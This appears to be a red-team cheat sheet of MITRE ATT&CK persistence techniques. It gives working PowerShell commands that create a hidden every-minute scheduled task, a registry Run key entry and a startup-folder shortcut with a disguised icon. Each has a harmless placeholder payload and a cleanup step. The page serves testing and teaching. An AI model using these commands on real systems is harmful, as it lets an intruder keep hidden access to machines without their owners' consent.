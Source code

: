# TA0003 - Persistence

*- maintaining access.*

## T1053.005 - Scheduled Task/Job: Scheduled Task

| Privileges | Execution Trigger                    |
|:-----------|:-------------------------------------|
| Standard   | Scheduled time if user is logged in. |

- Execute `$cmd` every minute.
    - Attack:
        ```ps1
        $cmd = "PowerShell -WindowStyle Hidden -Command taskschd.msc"
        SCHTASKS /Create /F /SC MINUTE /MO 1 /TN poc /TR $cmd
        ```
    - Cleanup:
        ```ps1
        SCHTASKS /Delete /F /TN poc
        ```

## T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder

| Privileges | Execution Trigger |
|:-----------|:------------------|
| Standard   | User login.       |

- Execute `$cmd` (via registry run key).
    - Attack:
        ```ps1
        $cmd = "PowerShell -NoExit -Command REG QUERY HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
        REG ADD HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc /D $cmd
        ```
    - Cleanup:
        ```ps1
        REG DELETE HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc
        ```

- Execute `$cmd` (via startup folder).
    - Attack:
        ```ps1
        $cmd = "Explorer $env:HOMEPATH\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
        $cmds = $cmd -split ' ', 2 ; $lnk = (New-Object -ComObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk") ; $lnk.TargetPath = $cmds[0] ; $lnk.Arguments = $cmds[1] ; $lnk.IconLocation = "$env:SystemDrive\Windows\System32\wsl.exe" ; $lnk.Save()
        ```
    - Cleanup:
        ```ps1
        Remove-Item -Force -Path "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk"
        ```

## Resources

- [Mitre ATT&CK | Persistence](https://attack.mitre.org/tactics/TA0003/)
- [Red Team Notes | Persistence](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/)
